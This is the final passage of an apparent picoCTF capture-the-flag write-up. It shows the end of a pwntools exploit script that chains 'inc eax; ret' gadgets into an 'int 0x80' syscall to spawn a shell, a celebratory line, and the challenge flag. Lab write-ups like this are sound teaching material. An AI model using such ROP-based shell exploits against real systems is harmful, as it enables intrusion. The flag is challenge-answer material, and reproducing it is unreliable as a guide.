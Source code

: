```python
payload+= p32(0x0808054e) # inc eax ; ret
payload+= p32(0x0808054e) # inc eax ; ret
payload+= p32(0x0808054e) # inc eax ; ret
payload+= p32(0x0808054e) # inc eax ; ret
payload+= p32(0x0808054e) # inc eax ; ret
payload+= p32(0x0808054e) # inc eax ; ret
payload+= p32(0x0804a3c2) # int 0x80

p.recv()
p.sendline(payload)

p.interactive()
```

HAHAHAHA SHELL IS OURS! :relaxed:

<p align=center>
    <img src="./shell.png" width=60%>
</p>

## Flag

```picoCTF{5n47ch_7h3_5h311_05369705}```